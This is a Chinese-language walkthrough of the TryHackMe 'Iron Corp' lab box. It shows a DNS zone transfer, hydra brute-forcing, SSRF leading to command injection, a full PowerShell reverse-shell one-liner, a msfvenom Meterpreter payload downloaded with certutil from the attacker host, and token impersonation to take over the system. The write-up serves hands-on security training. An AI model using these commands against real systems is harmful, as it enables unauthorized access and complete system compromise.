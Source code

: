 # Iron Corp

https://tryhackme.com/room/ironcorp

难度：难

不久前，钢铁公司遭受了安全漏洞。

您已被钢铁公司选中对其资产进行渗透测试。他们进行了系统强化，并期望您无法访问他们的系统。

范围内的资产为：ironcorp.me

注意：编辑配置文件并添加 ironcorp.me

你能访问钢铁公司的系统吗？

---

## 端口扫描

循例 nmap扫

    nmap -sS 10.10.91.218 -Pn -p- -T5

    53/tcp    open  domain
    135/tcp   open  msrpc
    3389/tcp  open  ms-wbt-server
    8080/tcp  open  http-proxy
    11025/tcp open  unknown
    49667/tcp open  unknown
    49670/tcp open  unknown

## 目录扫描

web一顿看没啥东西，gobuster扫目录也没扫出什么东西

11025端口也是web，gobuster扫，也是没啥东西

## dns域传送漏洞

回来再看一眼nmap扫描结果，使用dig看看dns

    dig ironcorp.me axfr @10.10.91.218

子域返回来了：

    ; <<>> DiG 9.18.8-1-Debian <<>> ironcorp.me axfr @10.10.91.218
    ;; global options: +cmd
    ironcorp.me.		3600	IN	SOA	win-8vmbkf3g815. hostmaster. 3 900 600 86400 3600
    ironcorp.me.		3600	IN	NS	win-8vmbkf3g815.
    admin.ironcorp.me.	3600	IN	A	127.0.0.1
    internal.ironcorp.me.	3600	IN	A	127.0.0.1
    ironcorp.me.		3600	IN	SOA	win-8vmbkf3g815. hostmaster. 3 900 600 86400 3600

将这两个子域添加到我们的/etc/hosts

在8080端口下这两个子域的内容跟之前的一样

## 身份验证爆破

http://internal.ironcorp.me:11025/ 禁止访问

http://admin.ironcorp.me:11025/ 弹出登录框

回到这个页面有用户名

    http://ironcorp.me:8080/profile.html

打开burp抓包刚刚登录框

抓到的包的部分请求头：

    Authorization: Basic YWRtaW46YWRtaW4=

base64解码后，确认这就是我们登录的凭据

    admin:123456

由于前面的网页中我们看见了mark用户，所以我们选择爆破mark

    hydra -l mark -P /usr/share/wordlists/rockyou.txt -f admin.ironcorp.me -s 11025 http-get /

好像爆不出来，也没别的信息了，再尝试爆最有可能的admin

靶机不知道怎么回事，被扫爆了还是怎么着，炸了，平台那边关也关不掉，害我白等一小时

爆admin:

    hydra -l admin -P /usr/share/wordlists/rockyou.txt -f admin.ironcorp.me -s 11025 http-get /

出来结果了：

    [11025][http-get] host: admin.ironcorp.me   login: admin   password: ********

## RFI（远程文件包含）

登录进去是一个“查询框”，尝试了几遍，确定存在RFI

尝试远程包含shell：

    view-source:http://admin.ironcorp.me:11025/?r=http://10.14.39.48:8000/linux-tools_and_exp/php_simple_cmd.php

尝试了好几种，都不行，它仅仅读取文件内容。貌似并不会将其执行

## SSRF（服务端请求伪造）

我们在上面有一个禁止访问的url，尝试一下看看能不能越权访问到：

    http://admin.ironcorp.me:11025/?r=http://internal.ironcorp.me:11025/

果然可以，我们得到了：

    http://internal.ironcorp.me:11025/name.php?name=

这个也是拒绝访问，没关系，我们继续通过RFI访问

fuzzing一些符号，有一些符号有猫腻：

    ||、&&、|

这些符号很熟悉，因为它能够帮助我们执行命令。

使用“|”管道符，将前一个命令输出作为后一个命令的输入，它将能显示输出我们执行的命令结果，验证：| whoami

    My name is:

	    nt authority\system

## Reverse Shell

payload:

    powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.14.39.48',8888);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

成功getshell

注意，我们需要进行两次url编码，否则该payload将无法生效，因为有空格

<pre><font color="#367BF0">┌──(</font><font color="#EC0101"><b>root💀kali</b></font><font color="#367BF0">)-[</font><b>/home/sugobet</b><font color="#367BF0">]</font>
<font color="#367BF0">└─</font><font color="#EC0101"><b>#</b></font> <font color="#5EBDAB">nc</font> <font color="#9755B3">-vlnp</font> 8888                
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::8888
Ncat: Listening on 0.0.0.0:8888
Ncat: Connection from 10.10.8.68.
Ncat: Connection from 10.10.8.68:50313.
whoami
nt authority\system
PS E:\xampp\htdocs\internal&gt; 
</pre>

靶机又崩了，还好这次可以正常重启靶机

user.txt在C:\users\administrator\desktop

## Token模拟

msfvenom生成meterpreter的reverse shell

    msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=10.14.39.48 lport=8889 -f psh > she11.ps1

上传到目标机器：

    certutil -urlcache -split -f "http://10.14.39.48:8000/she11.ps1"

目标运行：

    . .\she11.ps1

成功

加载incognito模块

    load incognito

查看可用的user token:

    list_tokens -u

模拟：

    impersonate_token "WIN-8VMBKF3G815\Admin"

root.txt在C:\Users\Admin\Desktop下
